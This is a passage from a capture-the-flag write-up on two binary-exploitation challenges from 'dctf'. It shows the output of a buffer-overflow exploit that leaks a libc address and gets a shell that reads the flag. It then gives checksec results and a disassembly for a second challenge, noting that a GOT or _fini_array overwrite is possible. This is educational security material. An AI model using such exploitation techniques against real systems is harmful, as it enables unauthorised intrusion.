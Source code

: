 Running the exploit:-

```asm
❯ python3 baby_bof.py
[+] Opening connection to dctf-chall-baby-bof.westeurope.azurecontainer.io on port 7481: Done
[*] '/home/d4mianwayne/Pwning/CTFs/dctf/baby_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x7f37b1589000
[*] Switching to interactive mode

plz don't rop me
i don't think this will work
$ cat flag.txt
dctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}
$ 
[*] Interrupted
```

### Magic Trick

This was kind of a good challenge, well kind of, first check the security mechanisms:-

```asm

gef➤  checksec
[+] checksec for '/home/d4mianwayne/Pwning/CTFs/dctf/magic_trick'
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
gef➤  
```
Now, this shows off that that there’s Canary and NX protection while the PIE and RELRO is disabled, this means we can write the _fini_array or any of the Global Offset Table entries. The main function calls the magic function, checking it:-

```asm

gef➤  disas magic 
Dump of assembler code for function magic:
   0x000000000040068d <+0>:    push   rbp
   0x000000000040068e <+1>:    mov    rbp,rsp
   0x0000000000400691 <+4>:    sub    rsp,0x20
   0x0000000000400695 <+8>:    mov    rax,QWORD PTR fs:0x28
   0x000000000040069e <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006a2 <+21>:    xor    eax,eax
   0x00000000004006a4 <+23>:    lea    rdi,[rip+0x15e]        # 0x400809
   0x00000000004006ab <+30>:    call   0x400520 <puts@plt>
   0x00000000004006b0 <+35>:    lea    rax,[rbp-0x20]
   0x00000000004006b4 <+39>:    mov    rsi,rax
   0x00000000004006b7 <+42>:    lea    rdi,[rip+0x165]        # 0x400823
   0x00000000004006be <+49>:    mov    eax,0x0
   0x00000000004006c3 <+54>:    call   0x400560 <__isoc99_scanf@plt>
   0x00000000004006c8 <+59>:    lea    rdi,[rip+0x159]        # 0x400828
   0x00000000004006cf <+66>:    call   0x400520 <puts@plt>
```